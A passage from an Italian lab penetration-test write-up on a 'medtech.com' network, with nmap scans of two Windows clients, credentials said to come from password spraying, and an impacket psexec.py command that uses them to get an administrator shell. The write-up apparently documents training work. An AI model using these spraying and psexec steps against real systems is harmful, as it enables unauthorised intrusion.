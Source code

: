 ```bash
| ssl-cert: Subject: commonName=CLIENT01.medtech.com
| Not valid before: 2024-04-16T21:31:12
|_Not valid after:  2024-10-16T21:31:12
|_ssl-date: 2024-05-18T11:51:19+00:00; +3s from scanner time.
5040/tcp  open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-18T11:50:39
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 3s, deviation: 0s, median: 2s
|_nbstat: NetBIOS name: CLIENT01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:1d:4d (VMware)
```

Attraverso uno _spraying attack_ ricavo le seguenti credenziali per accedere a questa macchina come amministratore:

```bash
yoshi:Mushroom!
```

Con le credenziali trovate precedentemente lancio il seguente comando:

```bash
/usr/share/doc/python3-impacket/examples/psexec.py -port 445 medtech.com/yoshi:Mushroom\!@172.16.184.82
```



# 172.16.184.83 - CLIENT02 {pwned:local&proof}

```bash
nmap -sC -sV -O -p- 172.16.184.83
```

```bash
Nmap scan report for 172.16.184.83 (172.16.184.83)
Host is up (0.032s latency).
Not shown: 65524 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
```